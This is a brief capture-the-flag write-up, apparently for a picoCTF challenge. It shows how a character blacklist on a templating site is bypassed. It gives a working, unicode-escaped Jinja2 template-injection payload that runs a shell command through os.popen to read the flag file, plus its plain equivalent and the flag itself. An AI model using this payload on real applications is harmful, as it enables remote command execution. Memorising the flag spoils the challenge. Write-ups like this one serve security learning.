

>I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! Check out my website here!


- It has backlisting so we have to bypass that somehow 

-ways to do so is case manipulation,hex,base64,encoding 

- Why is blacklisting characters a bad idea to sanitize input ? the answer is that we can find alternatives like unicode / hexing or any other type of encoding to bypass that . 

-the final payload that worked was : 

```
{{ config
   |attr('\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f')
   |attr('\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f')
   |attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')
   |attr('get')('\u006f\u0073')
   |attr('\u0070\u006f\u0070\u0065\u006e')('\u0063\u0061\u0074\u0020\u002f\u0063\u0068\u0061\u006c\u006c\u0065\u006e\u0067\u0065\u002f\u0066\u006c\u0061\u0067')
   |attr('\u0072\u0065\u0061\u0064')()
}}

```

this is just equivalent to 

`{{ config.__class__.__init__.__globals__.get('os').popen('cat /challenge/flag').read() }}
` 

but in unicode . 

 

is whats happening here .

 > picoCTF{sst1_f1lt3r_byp4ss_e3f3b57a}